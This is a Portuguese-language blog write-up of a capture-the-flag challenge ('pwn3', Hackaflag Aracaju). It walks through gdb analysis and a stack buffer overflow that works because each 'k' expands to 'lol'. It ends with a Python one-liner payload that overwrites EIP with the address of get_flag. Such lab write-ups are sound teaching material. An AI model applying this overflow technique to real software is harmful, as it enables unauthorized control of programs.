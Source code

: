 ```yaml
---
layout: post
title: Pwn0
categories:
  - Hackaflag aracaju
published: true
---
```

<div class="message">Link para pwn3:[https://s3-us-west-1.amazonaws.com/contattafiles/ratf/dRi0rQk6fm53a8r/pwn3](https://s3-us-west-1.amazonaws.com/contattafiles/ratf/dRi0rQk6fm53a8r/pwn3)</div>
Ao se executar o pwn pela primeira vez e tentar fazer um overflow enviando um monte de A's para a pergunta "Qual seu nome?", percebi que ele limitava a quantidade de caracteres que eram impressos.

Uma proteção contra overflow? Agora o negócio tava mais complicado que os outros dois pwn.

Mas por acaso, antes de analisar o pwn no gdb ou objdump, percebi que ele substituia qualquer "k" (apenas minusculo) por "lol" e com k's suficientes os lol estouravam o espaço reservado para eles e passariam por cima de tudo, causando um buffer overflow. (Acho que o conhecimento que isso passa é de que sempre se deve testar qualquer tipo de INPUT para verificar falhas em um programa)

Abrindo o pwn no gdb e mandando um info functions, achei 4 funções 
que eram interessantes:
{% highlight js %}

0x08048f13  get_flag
0x08048f21  replace
0x080491af  vuln
0x0804932d  main

{% endhighlight %}
Coloquei breakpoints em todas (b replace, b vuln, b main, b get_flag) e coloquei o pwn pra rodar (run).

Primeiro breakpoint para em main, função principal do programa (pouca novidade aqui). Uso o comando disas main e tento analisar o código (tô longe de saber muito de asm), entendi que main, basicamente só serve pra chamar a função vuln.

{% highlight js %}
   0x08049333 <+6>:     call   0x80491af <vuln>
{% endhighlight %}

Com o comando c, mando pwn continuar. E, como imaginei, ele para em vuln. Tento analisar o código da função usando disas vuln, mas a coisa fica um pouco complicada por causa do meu pouco conhecimento de asm. 
Mesmo assim, compreendo algumas linhas e conclui que vuln era responsável por imprimir a mensagem perguntando do nome, copiar o que a função replace retornar, para o buffer vulnerável usando a perigosa função strcpy, e então imprimir na tela o resultado.
Só lembrando que isso tudo eram suposições (boa parte baseadas nas chamadas para funções que vi no código, tipo printf, fgets, call para replace, strcpy...)., já que meu conhecimento em asm (AINDA) não é suficiente.

Como o código de vuln já mostrava, quando mandei o GDB continuar, surgiu a mensagem pedindo para digitar o nome. Depois de digitar qualquer coisa e teclar enter, o breakpoint em replace faz efeito.

Analisar a função replace foi mais complicado. A conclusão que tirei, por achismo, é que ela fica responsável por varrer a string em busca de K's e, caso encontre, substitua por lol. E provavelmente retorne a string modificada.

Instruindo o gdb a continuar, vi que o programa finaliza exibindo a mensagem só isso.

Então executei o programa novamente no gdb (usando o comando run), mas dessa vez meti um monte de k's no lugar do meu nome. Aí, depois de mandar o pwn continuar após o breakpoint em replace, o gdb me mostra:
{% highlight js %}

Program received signal SIGSEGV, Segmentation fault.
0x6f6c6c6f  in ?? ()

{% endhighlight %}
6f6c6c6f = ollo em hex, o que significa que temos meios lol's em eip, o que significa que podemos sobreescreve-lo com coisa mais útil. Tipo o endereço de get_flag.

Eu aposto que deve haver um jeito mais prático, mas no calor do ctf, fui manualmente testando quantos k's eram necessários para chegar em EIP. De k em k, descobri que 22 k's corrompem eip com um ol, meio lol. Então usei 21 k's mais um caractere qualquer (usei o l no dia) e 4 A's.
{% highlight js %}

Oi, lollollollollollollollollollollollollollollollollollollollollollAAAA


Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
{% endhighlight %}

Achei onde pôr o endereço de get_flag ;D

Para testar a solução, usei o python para criar um arquivo que serviria de entrada para pwn: 
{% highlight js %}
python -c 'print "k"*21 + "l" + "\x13\x8f\x04\x08"' > input
{% endhighlight %}

Obs: eu já tinha anotado o endereço de get_flag (0x08048f13) depois de analisar as funções no gdb, imaginei que seria útil. E, como sabemos que a regra usada nesse caso para manipulação de armazenamento na memória é Little Endian, invertemos o endereço: 08 04 8f 13 vira 13 8f 04 08.

Para ver se tudo funcionava, no gdb com pwn3, coloquei um breakpoint apenas em get_flag. Então rodei o programa e redirecionei a entrada para o arquivo input, assim, ele iria ler o conteúdo do arquivo e usar como resposta para a pergunta "Qual seu nome?".
{% highlight js %}

(gdb) run < input
Starting program: /home/update/pwn3 < input
Qual seu nome? Oi, lollollollollollollollollollollollollollollollollollollollolloll▒


Breakpoint 1, 0x08048f13 in get_flag ()
{% endhighlight %}

Missão cumprida. EIP apontava para get_flag.
{% highlight js %}

(gdb) c
Continuando.
cat: flag.txt: Arquivo ou diretório não encontrado

Program received signal SIGSEGV, Segmentation fault.
0x08048f1f in get_flag ()
{% endhighlight %}

Agora bastava explorar o pwn que estava rodando em algum ip dentro da rede do hack a flag e ver o contéudo do arquivo flag.txt ;)

EOF
